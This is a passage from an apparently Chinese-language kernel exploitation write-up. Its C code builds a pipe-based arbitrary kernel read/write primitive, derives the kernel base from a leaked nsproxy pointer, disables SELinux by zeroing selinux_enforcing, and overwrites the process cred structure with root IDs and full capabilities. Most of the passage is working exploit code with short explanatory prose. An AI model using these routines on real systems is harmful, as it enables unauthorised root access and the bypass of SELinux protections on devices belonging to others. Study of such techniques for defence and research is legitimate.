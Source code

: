 ```c
    if ((size_t) nBytesWritten != Length) {
        ERR("[-] Failed to write data from user: %p", Address);
        exit(EXIT_FAILURE);
    }
    ssize_t nBytesRead = read(m_kernel_rw_pipe_fd[0], Address, Length);
    if ((size_t) nBytesRead != Length) {
        ERR("[-] Failed to write data to kernel: %p", Address);
        exit(EXIT_FAILURE);
    }
}
```

任意读的话，利用write和read两个系统调用，使用write将数据写到pipe，并在管道的另一端read一个内核地址，就可以将数据写入该内核地址。任意写的话，与之相反。这样就实现了任意读写。

task_struct 有一个全局指针nsproxy ，前面已经泄露出来了，就可以更具偏移直接算出Kernel_base_addr。

```c
ptrdiff_t kernelBase = nsProxy - SYMBOL_OFFSET_init_nsproxy;
    auto selinuxEnforcing = (void *) (kernelBase + SYMBOL_OFFSET_selinux_enforcing);
    INFO("\t[*] nsproxy: 0x%lx\n", nsProxy);
    INFO("\t[*] Kernel base: 0x%lx\n", kernelBase);
    INFO("\t[*] selinux_enforcing: %p\n", selinuxEnforcing);
    int selinuxEnabled = kReadDword(selinuxEnforcing);
    if (!selinuxEnabled) {
        INFO("\t[*] selinux enforcing is disabled\n");
        return;
    }
    INFO("\t[*] selinux enforcing is enabled\n");

    kWriteDword(selinuxEnforcing, 0x0);
```

这里只需要对于SELinux只需根据kernelBase 计算出具体的地址，再直接进行写入0x0即可禁用掉。

现在的版本越来越多保护和检查机制，实际上直接这样不一定是不可行，有时得恢复kallsyms表才行

### Root

提权的常用语句`commit_creds(prepare_kernel_cred(NULL));`，这就是常规的套路了。

```c
kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, uid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, gid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, suid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, sgid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, euid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, egid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, fsuid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, fsgid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, securebits)), SECUREBITS_DEFAULT);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_inheritable)), CAP_EMPTY_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_permitted)), CAP_FULL_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_effective)), CAP_FULL_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_bset)), CAP_FULL_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_ambient)), CAP_EMPTY_SET);
```
